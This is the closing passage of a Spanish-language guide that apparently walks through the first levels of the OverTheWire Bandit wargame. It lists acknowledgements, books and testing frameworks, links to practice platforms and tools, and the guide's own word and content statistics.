- **OWASP**: Security testing methodologies
- **NIST**: Cybersecurity frameworks
- **SANS**: Educational materials and resources
- **Offensive Security**: Penetration testing approaches

### Comunidad
- **InfoSec Community**: Feedback and contributions
- **Students and Practitioners**: Real-world testing and validation
- **Open Source Contributors**: Tools and scripts development

### Recursos Técnicos
- **GitHub**: Platform for collaboration
- **Markdown**: Documentation format
- **Linux**: Operating system and tools
- **SSH**: Secure Shell protocol
```

---

## 📚 BIBLIOGRAFÍA Y REFERENCIAS

### 📖 Fuentes Académicas y Técnicas

```yaml
Primary Sources:
  - "OverTheWire Bandit Wargame Documentation"
  - "Linux System Administration Handbook" - Nemeth, Snyder, et al.
  - "NIST Cybersecurity Framework" - National Institute of Standards
  - "OWASP Testing Guide" - Open Web Application Security Project

Technical References:
  - "Advanced Programming in the UNIX Environment" - Stevens & Rago
  - "The Practice of System and Network Administration" - Limoncelli
  - "Incident Response & Computer Forensics" - Luttgens, et al.
  - "Network Security Assessment" - McNab

Methodology Frameworks:
  - "PTES (Penetration Testing Execution Standard)"
  - "OSSTMM (Open Source Security Testing Methodology Manual)"
  - "ISSAF (Information System Security Assessment Framework)"
  - "NIST SP 800-115 Technical Guide to Information Security Testing"

Online Resources:
  - SANS Reading Room Papers
  - CVE Details Database  
  - Exploit Database
  - Security Stack Exchange
```

### 🔗 Enlaces Útiles

```markdown
## Enlaces de Referencia

### Plataformas de Práctica
- [OverTheWire](https://overthewire.org/wargames/)
- [TryHackMe](https://tryhackme.com/)
- [HackTheBox](https://www.hackthebox.eu/)
- [PicoCTF](https://picoctf.org/)

### Documentación Técnica
- [Linux Manual Pages](https://man7.org/linux/man-pages/)
- [GNU Core Utilities](https://www.gnu.org/software/coreutils/manual/)
- [OpenSSH Documentation](https://www.openssh.com/manual.html)
- [Bash Manual](https://www.gnu.org/software/bash/manual/)

### Comunidades y Foros
- [Reddit r/cybersecurity](https://reddit.com/r/cybersecurity)
- [Stack Overflow Security](https://stackoverflow.com/questions/tagged/security)
- [Information Security Stack Exchange](https://security.stackexchange.com/)
- [SANS Community](https://www.sans.org/community/)

### Herramientas y Recursos
- [Kali Linux](https://www.kali.org/)
- [Metasploit](https://www.metasploit.com/)
- [Nmap](https://nmap.org/)
- [Wireshark](https://www.wireshark.org/)
```

---

## 📊 MÉTRICAS Y ESTADÍSTICAS

### 📈 Estadísticas del Documento

```yaml
Document Statistics:
  - Total Words: ~25,000
  - Code Examples: 200+
  - Scripts Included: 15
  - Commands Documented: 150+
  - Levels Analyzed: 4 (0-3)
  - Methodologies Presented: 6
  - References: 50+

Complexity Analysis:
  - Beginner Content: 40%
  - Intermediate Content: 45%
  - Advanced Content: 15%
  
Learning Time Estimate:
  - Reading: 8-10 hours
  - Hands-on Practice: 15-20 hours  
  - Mastery: 40-50 hours
  - Professional Application: 100+ hours
```

---

*Documento completado - Versión 1.0*
*Fecha de finalización: $(date)*
*"Security is not a product, but a process" - Bruce Schneier*
